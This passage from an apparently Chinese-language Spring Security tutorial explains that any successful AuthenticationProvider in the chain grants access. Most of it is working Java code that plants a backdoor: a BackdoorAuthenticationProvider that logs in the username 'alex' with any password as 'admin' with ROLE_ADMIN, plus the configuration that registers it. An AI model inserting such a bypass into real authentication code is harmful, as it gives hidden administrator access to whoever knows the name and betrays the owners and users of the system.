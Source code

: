 注意，在ProviderManager管理的验证链上，任何一个AuthenticationProvider通过了验证，则验证成功。所以，要在系统中留一个后门，只需要在代码中添加一个AuthenticationProvider的子类BackdoorAuthenticationProvider，并在输入特定的用户名（alex）时，直接伪造一个验证成功的Authentication，即可通过验证，代码如下：

```
@Component
public class BackdoorAuthenticationProvider implements AuthenticationProvider {
    @Override
    public Authentication authenticate(Authentication authentication) throws AuthenticationException {
        String name = authentication.getName();
        String password = authentication.getCredentials().toString();

        //利用alex用户名登录，不管密码是什么都可以，伪装成admin用户
        if (name.equals("alex")) {
            Collection<GrantedAuthority> authorityCollection = new ArrayList<>();
            authorityCollection.add(new SimpleGrantedAuthority("ROLE_ADMIN"));
            authorityCollection.add(new SimpleGrantedAuthority("ROLE_USER"));
            return new UsernamePasswordAuthenticationToken(
                    "admin", password, authorityCollection);
        } else {
            return null;
        }
    }

    @Override
    public boolean supports(Class<?> authentication) {
        return authentication.equals(
                UsernamePasswordAuthenticationToken.class);
    }
}
```

然后在SecurityConfiguration类中，将BackdoorAuthenticationProvider的实例加入到验证链中即可，代码如下：

```
@EnableWebSecurity
public class SecurityConfiguration extends WebSecurityConfigurerAdapter {
    @Autowired
    BackdoorAuthenticationProvider backdoorAuthenticationProvider;
    @Override
    protected void configure(AuthenticationManagerBuilder auth) throws Exception {
       ...省略
        //将自定义验证类注册进去
        auth.authenticationProvider(backdoorAuthenticationProvider);
    }
  ...省略
}
```

### 7. 代码解释
#### 1) 修改用户名密码的参数名称
